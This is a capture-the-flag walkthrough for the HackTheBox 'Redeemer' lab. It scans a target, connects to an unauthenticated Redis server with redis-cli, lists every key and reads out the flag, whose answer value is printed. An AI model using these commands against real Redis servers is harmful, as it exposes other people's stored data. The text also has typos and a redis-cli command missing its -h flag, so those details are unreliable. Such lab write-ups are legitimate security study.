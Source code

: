 # HTB – Redeemer Walkthrough

## Target IP
`10.129.196.208`

## Tools Used
- nmap
- redis-cli

## Enumeration

```bash
 nmap -p- -sV 10.129.196.208
```

Discovered: 6379/tcp open with Redis service running

## Redit Enumeration

Connected to Redit:

```bash
 redis-cli 10.129.196.208
```

Once Connected: 

```bash
info
```
The keyspace section provides information on the main dictionary of each database. The stats also show the number of keys and their expiration if there are any.

Then we the Redis database by using the select command.

```bash
select 0
```

Displayed all keys in the database by running the keys command

```bash
keys *
```

And finally, we can view the values stored for each key shown, and using the get command we can view them

```bash
get flag
```

## Flag Summary

03e1d2b376c37ab3f5319922053953eb

Rooted.
